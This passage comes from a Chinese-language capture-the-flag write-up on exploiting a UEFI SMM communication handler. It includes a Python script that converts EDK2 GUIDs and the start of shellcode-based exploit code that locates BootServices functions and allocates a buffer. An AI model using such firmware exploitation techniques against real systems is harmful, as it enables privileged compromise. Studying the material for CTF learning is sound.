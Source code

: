 	- gEfiSmmCommunicationProtocolGuid
	前者可以从 patch 中获得，后者可以从 edk2 源码获得：
	
> [!info] 
> `MdePkg/MdePkg.dec` 是 EDK2 核心包的描述文件，即 Package Declaration File，包含了 `UEFI/PI` 标准定义的许多通用库、协议、GUID 等，是 EDK2 最基础的核心包。几乎所有 EDK2 模块都需要依赖 MdePkg 包。

这里提供一个简易转换脚本：

```python
res_dict = {}
line = "gEfiSmmCommunicationProtocolGuid  = { 0xc68ed8e2, 0x9dc6, 0x4cbd, { 0x9d, 0x94, 0xdb, 0x65, 0xac, 0xc5, 0xc3, 0x32 }}"
data = line.split("=")
if len(data) == 2:
    temp_name = data[0].strip()
    temp_guid = data[1].strip().replace("{", "").replace("}", "").strip().split(",")
    cur_guid = ""
    if len(temp_guid) == 11:
        for i in range(len(temp_guid)):
            temp_bits = temp_guid[0 - i - 1]
            if 0 <= i and i < 8:
                cur_guid += hex(int(temp_bits, 16))[2:].rjust(2, "0")
            elif 8 <= i and i < 10:
                cur_guid += hex(int(temp_bits, 16))[2:].rjust(4, "0")
            elif 10 <= i:
                cur_guid += hex(int(temp_bits, 16))[2:].rjust(8, "0")
res_dict[temp_name] = "0x" + cur_guid
print(res_dict)
```

综合上面得到的信息，跟着 Patch 不难写出 AllocatePool 与拷贝数据的汇编代码：

```python
gEfiSmmCowsayCommunicationGuid = 0xF79265547535A8B54D102C839A75CF12
gEfiSmmCommunicationProtocolGuid = 0x32C3C5AC65DB949D4CBD9DC6C68ED8E2

lianpwn.lg_inf("STEP 1: AllocatePool and Setup Buffer")
regs = execute_shellcode(
    asm(f"""
    // Get Addresses
    mov r15, [{SystemTable_addr + 0x60}]; // BootServices
    mov r14, [r15 + 0x40]; // AllocatePool
    mov r13, [r15 + 0x140]; // LocateProtocol

    ret;
""")
)
BootServices_addr = regs[14]
AllocatePool_addr = regs[13]
LocateProtocol_addr = regs[12]
lianpwn.lg_suc("BootServices_addr", BootServices_addr)
lianpwn.lg_suc("AllocatePool_addr", AllocatePool_addr)
lianpwn.lg_suc("LocateProtocol_addr", LocateProtocol_addr)

allocated_buf = execute_shellcode(
    asm(f"""
    // AllocatePool(EfiRuntimeServicesData, 0x1000, &buffer);
    mov rcx, 6;
    mov rdx, 0x1000;
    lea r8, [rip + allocated_buf];
    mov rax, {AllocatePool_addr};
    call rax;

    // copy data to allocated_buf
    mov rdi, [rip + allocated_buf];
```